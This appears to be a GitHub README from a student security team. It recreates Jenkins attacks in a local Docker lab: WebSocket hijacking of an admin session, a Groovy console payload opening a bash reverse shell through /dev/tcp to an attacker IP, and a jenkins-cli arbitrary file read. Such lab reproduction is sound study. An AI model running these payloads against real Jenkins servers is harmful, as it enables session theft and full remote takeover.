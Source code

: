 # CVE2_Jenkins_RCE
 Repo for CVE S2 Team 1 -- working on a Jenkins exploit

# Setting Up Jenkins
- Run "docker-compose build && docker-compose up -d"
- Navigate to http://localhost:8080, you will be prompted for an admin password
- Open a shell in the jenkins docker container (NOT THE POSTGRES ONE)
    - "docker exec -it <container_id> bash"
    - cd to directory listeed on the Jenkins page, acquire the password
- Set up a basic admin account (remember the password) and install default plugins 
-Configure anonymous users with basic permissions by going to Manage Jenkins > Security 
	- Set authorization type to "Matrix-based"
	- Allow anonymous users to read "Overall" and "Job"


# Conducting Websocket Hijacking
- Open Firefox, go to Settings > Security & Privacy
    - Set Browser Privacy to custom, toggle Cookies "off" (this makes Firefox allow all cookies through)
- Go to Jenkins, login as the admin, making sure to click "Keep me signed in"
- Lauch evilApp.py, visiting on http://localhost:5000
    - Go to Network and hit refresh
    - Click on the packet with file "ws" and go to Response, you should see that is says "Authenticated as: admin""
        -  You can also check "Cookies" to see the remember-me cookie

# Executing a reverse shell
- In your machine's terminal, start a netcat listener with `nc -l <port_num>` (replace <port_num> with any unused port number)
- You must obtain your computer's IP address as seen by Docker. On Mac you can find this with the command `ipconfig getifaddr en0`
- Assuming your Jenkins server is running, go to `[http://localhost:8080/script](http://localhost:8080/script)`. Log in as the admin account if you have not already.
- Paste and execute this payload into the Groovy script console: `['bash', '-c', 'bash -i >& /dev/tcp/<attacker_ip>/<port_num> 0>&1'].execute()`
- Go back to the terminal with the netcat listener. You should be in the Jenkins server's file system and able to do anything the admin user can.



# ========= OLD CVE ========= #

#  Recreating the PoC (Arbritrary Read)
- Place a dummy file in the Jenkins system by opening a shell in the docker container (save the root path)
- Downloaded CLI client using "curl -O http://localhost:8080/jnlpJars/jenkins-cli.jar"  
- Execute "java -jar jenkins-cli.jar -s http://localhost:8080/ help @<TARGET_FILE_PATH>"
- If successful, you should get an error message "ERROR: No such command" followed by the file content